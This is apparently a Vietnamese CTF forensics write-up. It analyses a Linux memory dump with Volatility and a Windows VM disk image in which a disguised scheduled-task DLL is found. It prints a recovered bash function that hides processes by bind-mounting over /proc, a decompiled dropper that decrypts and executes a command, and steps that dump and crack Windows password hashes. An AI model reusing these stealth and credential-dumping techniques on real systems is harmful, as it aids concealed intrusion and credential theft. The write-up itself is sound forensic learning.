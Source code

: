 # Tham khảo:
![image](https://github.com/user-attachments/assets/2a27acf8-5bee-4501-9954-38c4e173014e)

# _APT 1337_

- Liệt kê tiến trình:
> linux.psaux.PsAux
> 
> linux.pslist.PsList

- Check file trong RAM (khá tương tự filescan của windows)
> linux.linux.pagecache.InodePages

Dùng strings grep ra được lấy được 1 số thông tin hữu ích sau:
```
hide() {
    [[ -L /etc/mtab ]] && { cp /etc/mtab /etc/mtab.bak; mv /etc/mtab.bak /etc/mtab; }
    _pid=${1:-$$}
    [[ $_pid =~ ^[0-9]+$ ]] && { mount -n --bind /dev/shm /proc/$_pid && echo "[THC] PID $_pid is now hidden"; return; }
    local _argstr
    for _x in "${@:2}"; do _argstr+=" '${_x//\'/\'\"\'\"\'}'"; done
    [[ $(bash -c "ps -o stat= -p \$\$") =~ \+ ]] || exec bash -c "mount -n --bind /dev/shm /proc/\$\$; exec \"$1\" $_argstr"
    bash -c "mount -n --bind /dev/shm /proc/\$\$; exec \"$1\" $_argstr"
}

hide /usr/sbin/daemon &


950     949     sudo    AES_KEY 7557a272bacc4186952a567db00ae817704d059ecfdc8e630c04d8aabecd1e04
950     949     sudo    AES_IV  068131ad1d5c0c1516fce836d510ccce
```

Thấy được dòng cuối thực hiện `hide /usr/sbin/daemon`, khả nghi nên dùng `linux.linux.pagecache.InodePages` để tìm file trong ram

`python3 /home/kali/volatility3/vol.py -f challenge.lime linux.pagecache.InodePages --find /usr/sbin/daemon --dump`

Dùng ida để reverse

```
int __fastcall main(int argc, const char **argv, const char **envp)
{
  _QWORD *v4; // rax
  __int64 v5; // rbx
  __int64 v6; // rbx
  __int64 v7; // rbx
  __int64 v8; // rbx
  __int64 v9; // rbx
  __int64 v10; // rbx
  __int64 v11; // rbx
  __int64 v12; // rbx
  __int64 v13; // rbx
  int fd; // [rsp+0h] [rbp-4C0h]
  int v15; // [rsp+4h] [rbp-4BCh]
  unsigned __int64 i; // [rsp+8h] [rbp-4B8h]
  char *v17; // [rsp+10h] [rbp-4B0h]
  char *v18; // [rsp+18h] [rbp-4A8h]
  time_t v19; // [rsp+20h] [rbp-4A0h]
  tm tp; // [rsp+30h] [rbp-490h] BYREF
  _BYTE v21[16]; // [rsp+70h] [rbp-450h] BYREF
  char v22[32]; // [rsp+80h] [rbp-440h] BYREF
  char command[1032]; // [rsp+A0h] [rbp-420h] BYREF
  unsigned __int64 v24; // [rsp+4A8h] [rbp-18h]

  v24 = __readfsqword(0x28u);
  fd = open("/tmp/.dat", 66, 384LL);
  if ( fd < 0 )
    return 1;
  if ( ftruncate(fd, 152LL) )
    return 1;
  zXb4W = (__int64)mmap(0LL, 0x98uLL, 3, 1, fd, 0LL);
  if ( zXb4W == -1 )
    return 1;
  v4 = (_QWORD *)zXb4W;
  v5 = qword_4028;
  *(_QWORD *)zXb4W = original_data;
  v4[1] = v5;
  v6 = qword_4038;
  v4[2] = qword_4030;
  v4[3] = v6;
  v7 = qword_4048;
  v4[4] = qword_4040;
  v4[5] = v7;
  v8 = qword_4058;
  v4[6] = qword_4050;
  v4[7] = v8;
  v9 = qword_4068;
  v4[8] = qword_4060;
  v4[9] = v9;
  v10 = qword_4078;
  v4[10] = qword_4070;
  v4[11] = v10;
  v11 = qword_4088;
  v4[12] = qword_4080;
  v4[13] = v11;
  v12 = qword_4098;
  v4[14] = qword_4090;
  v4[15] = v12;
  v13 = qword_40A8;
  v4[16] = qword_40A0;
  v4[17] = v13;
  v4[18] = qword_40B0;
  v17 = getenv("AES_KEY");
  v18 = getenv("AES_IV");
  if ( !v17 || !v18 )
    return 1;
  if ( (unsigned int)vNh3Z(v17, v22, 32LL) != 32 || (unsigned int)vNh3Z(v18, v21, 16LL) != 16 )
    return 1;
  v19 = time(0LL);
  memset(&tp, 0, 20);
  memset(&tp.tm_wday, 0, 32);
  tp.tm_year = 1100;
  tp.tm_mday = 1;
  if ( v19 < mktime(&tp) )
  {
    while ( 1 )
LABEL_20:
      sleep(1u);
  }
  for ( i = 0LL; i <= 0x97; ++i )
    *(_BYTE *)(zXb4W + i) ^= 0xAAu;
  v15 = pTq7L(zXb4W, 152LL, v22, v21, command);
  if ( v15 >= 0 )
  {
    command[v15] = 0;
    system(command);
    goto LABEL_20;
  }
  return 1;
}
```

Tạo file `tmp/.dat` chứa dữ liệu mã hóa, mình sẽ thực hiện tìm `tmp/.dat` trong ram

`python3 /home/kali/volatility3/vol.py -f challenge.lime linux.pagecache.InodePages --find /tmp/.dat --dump`

![image](https://github.com/user-attachments/assets/6e867d09-c0cc-4edc-a52e-b3af34eb267e)

Decrypt bằng cách xor với `0xAA` sau đó là AES

![image](https://github.com/user-attachments/assets/c24e4a2c-d8e0-405d-bc29-064b5a6db1c1)

# Blackdoor

Nếu mount trực tiếp vào `virtual box` thì cần pass đăng nhập nhưng có thể dùng kali để mount và lấy được thông tin `SAM`, `SECURITY` => mật khẩu đăng nhập windows

### Mount

Nhận được 1 file `.ova` thay extension thành `.tar` rồi extract ra được 1 file `.vmdk`. Dùng file vmdk này để mount

https://github.com/fox-it/dissect

`sudo /home/kali/.local/bin/target-mount Blackdoor-disk001.vmdk ~/Downloads/blackdoor/mount`

Dùng tool này để trích xuất thông tin login

https://github.com/fortra/impacket/blob/master/examples/secretsdump.py

![image](https://github.com/user-attachments/assets/ca959b33-a32f-454d-9892-57703d981236)

Lấy NTLM hash của John đem crack 

Pass: `1dodgeneon`

Đăng nhập vào check trong autoruns là thấy được 1 schedule task trông khả nghi

![image](https://github.com/user-attachments/assets/4af04a9a-70dd-4248-9ea4-a51edaec9b58)

Tên file đúng phải là `mscms.dll`, đây là cách ngụy trang của malware và kèm với việc `Not verified`

=> malware

Check md5

![image](https://github.com/user-attachments/assets/eeb41973-665b-463b-b30e-bdf28ae7f7ba)

Thấy chương trình được đặt lịch với tên `Calibration Loader`, check trong `Task Scheduler`

![image](https://github.com/user-attachments/assets/3058169e-7bdd-422d-abe6-2d3d54765b99)

Check ID

![image](https://github.com/user-attachments/assets/885dd9b3-c9df-4bdb-bb5e-0080b066931b)

Done.

## Tổng kết
That was a great CTF challenge — I learned so many new things!
